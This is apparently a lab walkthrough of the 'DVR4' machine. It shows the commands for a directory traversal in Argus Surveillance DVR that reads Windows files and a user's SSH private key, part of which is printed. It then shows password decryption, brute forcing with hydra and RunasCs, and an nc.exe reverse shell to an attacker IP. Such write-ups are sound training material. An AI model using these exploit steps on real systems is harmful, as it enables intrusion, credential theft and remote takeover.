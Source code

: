 # DVR4

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:10 +08
Nmap scan report for 192.168.201.179
Host is up (0.17s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

SSH is open on this Windows machine, so let's take note of that.&#x20;

### Argus Surveillance --> LFI SSH Key

Port 8080 hosted an Argus Surveillance instance:

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

There are quite a few exploits for this software:

```
$ searchsploit argus                         
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path         | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption      | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal       | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation      | windows_x86/local/45312.c
----------------------------------------------------------- ---------------------------------
```

The LFI one looks the easiest to exploit, and it involves using `curl`:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
{% endcode %}

It works, so now we just need to find out what to read. I know that SSH is open, so we should be looking for a SSH private key of some user. On the website, we can view the users to see 2:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

`viewer` is one them, and we can try to read their private key:

```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAuuXhjQJhDjXBJkiIftPZng7N999zteWzSgthQ5fs9kOhbFzLQJ5J
Ybut0BIbPaUdOhNlQcuhAUZjaaMxnWLbDJgTETK8h162J81p9q6vR2zKpHu9Dhi1ksVyAP
<TRUNCATED>
```

Using this, we can `ssh` into the machine as `viewer`:

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Decryption --> SYSTEM Shell

I tested the LFI in reading the administrator flag, and it actually worked:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2FDesktop%2fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
<FLAG>
```
{% endcode %}

This means that the application is being run by the administrator instead of `viewer`. There were other exploits that we didn't use yet. I found that the Weak Password Encryption was one of them. This involved reading the password hash from the configuration files of Argus.&#x20;

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>type DVRParams.ini
<TRUNCATED>
LoginName0=Administrator
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8                                    
```

We can decrypt this hash easily using the script:

```
$ python3 50130.py 

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

The last character is unknown. When looking at the script, it doesn't seem to map special characters within the dictionary. In this case, we can create a wordlist of the special characters.&#x20;

```
$ cat /usr/share/seclists/Fuzzing/special-chars.txt > wordlist.txt
$ sed -i -e 's/^/14WatchD0g/' wordlist.txt
```

Afterwards, we can attempt to brute force the `ssh` access using `hydra`:

```
$ hydra -l administrator -P wordlist.txt 192.168.201.179 ssh
```

However, this didn't work for some reason, so maybe the administrator does not have SSH access. Instead, I brute forced the passwords one by one with `RunasCs.exe` to check which worked.&#x20;

Eventually one worked:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g# whoami                               
[-] RunasCsException: CreateProcessWithLogonW failed with 1326                               
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ whoami                               
dvr4\administrator
```

Great! Now we just need to get a reverse shell. The exploits earlier have the `x86` tag, meaning that this is a 32-bit Windows computer and we should be using `nc32.exe` for a reverse shell.

Then, we just need to execute it:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ "C:\Windows\Tasks\nc.exe -e cmd.exe 1
92.168.45.191 21"
```

<figure><img src="../../../.gitbook/assets/image (97) (4).png" alt=""><figcaption></figcaption></figure>
